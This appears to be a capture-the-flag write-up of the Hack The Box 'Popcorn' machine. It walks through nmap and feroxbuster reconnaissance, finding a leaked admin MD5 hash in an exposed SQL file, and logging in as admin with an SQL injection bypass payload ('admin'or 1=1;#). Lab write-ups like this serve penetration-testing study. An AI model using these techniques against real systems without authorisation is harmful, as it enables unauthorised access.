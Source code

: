 ## -------------->> Popcorn <<------------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.6 -p-
---------

    Nmap scan report for 10.10.10.6
    Host is up (0.49s latency).
    Not shown: 65448 closed ports, 85 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
    |_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
    80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
    |_http-server-header: Apache/2.2.12 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.6

![Image 1]()

// Nothing much there, lets search for directories or files with [Feroxbuster](https://github.com/epi052/feroxbuster) Tool(By epi052)

    $ feroxbuster -u http://10.10.10.6/ -t 100 -w /usr/share/dirb/wordlists/big.txt 
----------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.6/
     🚀  Threads               │ 100
     📖  Wordlist              │ /usr/share/dirb/wordlists/big.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    403       10l       30w      286c http://10.10.10.6/cgi-bin/
    200        4l       25w      177c http://10.10.10.6/index
    301        9l       28w      309c http://10.10.10.6/rename
    200      654l     3106w        0c http://10.10.10.6/test
    301        9l       28w      310c http://10.10.10.6/torrent
    301        9l       28w      316c http://10.10.10.6/torrent/admin
    200        1l        4w       95c http://10.10.10.6/rename/index
    200      185l      476w        0c http://10.10.10.6/torrent/browse
    200      106l      206w     2988c http://10.10.10.6/torrent/admin/admin
    200       16l       92w      936c http://10.10.10.6/torrent/comment
    200        0l        0w        0c http://10.10.10.6/torrent/config
    301        9l       28w      314c http://10.10.10.6/torrent/css
    301        9l       28w      319c http://10.10.10.6/torrent/database
    200        0l        0w        0c http://10.10.10.6/torrent/download
    200        0l        0w        0c http://10.10.10.6/torrent/edit
    200        0l        0w        0c http://10.10.10.6/torrent/upload_file

// Lets navigate to http://10.10.10.6/torrent

![Image 2]()

// We can see its Torrents website, also we can see that feroxbuster search recursivly in /torrent directory

// and find us /database directory 

// Navigating to http://10.10.10.6/torrent/database we can see file called 'th_database.sql'

// Openning this file and rolling down we can see Admin credentials

![Image 3]()

    'Admin', '1844156d4166d94387f1a4ad031ca5fa'

// First lets analyz this hash with online [Hash analyzer](https://www.tunnelsup.com/hash-analyzer/)

![Image 4]()

// Now we know the hash is md5 we can decrypt it using again online [decrypt-md5](https://www.md5online.org/md5-decrypt.html) tool

![Image 5]()

// Back to http://10.10.10.6/torrent and try to login with the credential we found didnt work...

![Image 6]()

// So lets move on.. 

// earlier we found another directory called /test , lets check him out 

// It seems like the server php configuration file, But most interesting there its the option file_uploads and its 'On'

![Image 7]()

// So We can upload file

// But for upload we need to login(Alwayz we could create a user but i want to try other way)

// When tring few passwords to login admin i notice that one of the passwords i gave make the server to response with sql error

![Image 8]()

// So its may be possible that this login vulnerable to sql injection 

// This [website](http://www.securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html) helps me to understant little bit more about sql injection to bypass login 

![Image 9]()

    admin'or 1=1;#
    password

// And we loged in as admin !

![Image 10]()










